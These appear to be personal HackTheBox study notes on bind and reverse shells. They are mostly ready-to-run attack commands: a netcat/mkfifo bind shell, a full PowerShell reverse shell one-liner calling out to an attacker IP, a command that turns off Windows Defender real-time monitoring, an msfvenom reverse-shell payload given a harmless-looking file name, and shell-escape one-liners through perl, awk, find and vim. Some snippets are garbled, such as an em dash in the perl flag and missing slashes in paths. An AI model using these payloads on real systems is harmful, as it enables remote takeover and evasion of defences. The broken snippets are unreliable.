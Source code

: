 # Bind Shells
![](picture_CPTS/bindshell.webp)
Source: **HackTheBox** 
## connect server and client by netcat.
**1.SERVER  OPEN PORT 7777**
```shell
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```
**2.CLIENT CONNECT TO SERVER BY PORT 7777**
```shell
015coding@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```
**3.SERVER CONFIRM**
```shell
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!  
```
**4.CLIENT MESSAGE "HELLO WORLD"**
```shell
015coding@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
HELLO WORLD  
```
**5.SERVER RECEIVE MESSAGE**
```shell
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
HELLO WORLD  
```
## <mark style="background: #FFB86CA6;">BIND SHELL</mark>
**1.Target**
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
 `10.129.41.200` -> Target IP<br>
 **2.ATTACKER**
 ```shell
nc -nv 10.129.41.200 7777
```

# Reverse Shells
![](picture_CPTS/reverseshell.webp)
Source: **HackTheBox** <br>
[reverse shell]([Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))
## reverse shell
**1.Target**
```shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

**2.Attacker**
```shell
sudo nc -lvnp 443
```

# Crafting Shells
use `msfvenom` to craft
```shell
msfvenom -l payloads
```
`-l` -> list payload <br>
and this is how to build
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
`-p` -> select payload <br>
`-f` -> format file to export<br>
how to find what that request just go to Metasploit ,search and use `options`
## Spawning Interactive Shells
#### Interactive
```shell
/bin/sh -i
```
#### Prel
```perl
perl —e 'exec "/bin/sh";'
```

```perl
perl: exec "bin/bash";
```
#### Ruby
```ruby
ruby: exec "bin/bash";
```
#### Lua
```lua
lua: os.execute('bin/bash')
```
#### AWK
```c
awk 'BEGIN {system("/bin/sh")}'
```
#### Find
##### Using Find For A Shell
```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```
##### Using Exec To Launch A Shell
```shell
find . -exec /bin/sh \; -quit
```
#### VIM
##### Vim to shell
```shell
vim -c ':!/bin/sh'
```
##### Vim to exec shell
```shell
vim
:set shell=/bin/sh
:shell
```